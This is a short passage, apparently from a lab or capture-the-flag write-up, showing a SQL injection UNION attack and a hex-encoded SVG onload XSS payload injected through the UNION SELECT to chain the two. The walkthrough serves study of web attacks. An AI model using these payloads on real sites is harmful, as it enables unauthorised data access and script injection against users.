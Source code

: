 Ok i will Try Use union Attack

```sql
1' union select 1,2#
```

<figure><img src="../../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

Ok  Try again UNION Attack to make XSSSQi&#x20;

\<svg src=x onload=alert(/H3ckt00r/)>

Make  Encoded to HEX && ad 0x in begin payload

**`0x3c737667207372633d78206f6e6c6f61643d616c657274282f4833636b743030722f293e53`**

```sql
1' UNION SELECT 1,0x3c737667207372633d78206f6e6c6f61643d616c657274282f4833636b743030722f293e53#
```

<figure><img src="../../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>
